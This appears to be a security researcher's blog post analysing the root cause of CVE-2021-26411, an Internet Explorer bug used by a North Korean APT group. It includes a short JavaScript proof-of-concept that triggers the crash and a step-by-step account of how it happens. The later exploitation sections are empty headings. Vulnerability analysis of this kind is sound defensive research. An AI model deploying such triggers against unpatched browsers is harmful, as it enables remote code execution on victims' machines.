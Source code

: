 ```yaml
---
layout: post
toc: true
title: "RCA of CVE-2021-26411"
tags: [IE, 0day, In The Wild]
author:
  - @iamelli0t
---
```


In January of this year, Google and Microsoft respectively published blogs revealing attacks on security researchers by an APT group in North Korea[1][2]. A vulnerability in Internet Explorer used in this attack was fixed as CVE-2021-26411 in Microsoft's Patch Tuesday this month[3]. The vulnerability is triggered when users of the affected version of Internet Explorer access a malicious link constructed by the attacker, causing remote code execution.

## root casue analysis
The POC that can trigger the vulnerability is shown below:
```html
<script>
var elem = document.createElement('xxx'); 
var attr1 = document.createAttribute('yyy'); 
var attr2 = document.createAttribute('zzz'); 

var obj = {};
obj.valueOf = function() {
	elem.clearAttributes();
	return 0x1337;
};

attr1.nodeValue = obj;
attr2.nodeValue = 123;
elem.setAttributeNode(attr1);
elem.setAttributeNode(attr2);
elem.removeAttributeNode(attr1); 
</script>

Execution process of POC:
1. Create 1 HTML Element object (elem) and 2 HTML Attribute objects (attr1 and attr2)
2. Assign a value to the nodeValue of two Attribute objects, where attr1's nodeValue points to an Object that overloads ValueOf
3. Bind two Attribute objects attr1 and attr2 to Element object elem
4. Call elem.removeAttributeNode(attr1) to remove the attribute attr1 object of 'xxx'
5. The removeAttributeNode method triggers a callback to the valueOf function, during which clearAttributes() is called to clear all attribute objects bound by the eLEM object: attr1 and attr2
6. ValueOf callback returns, IE Tab process crashes at null pointer dereference:


## from nullptr dereference to read/write primitive


## some thoughts


## refrences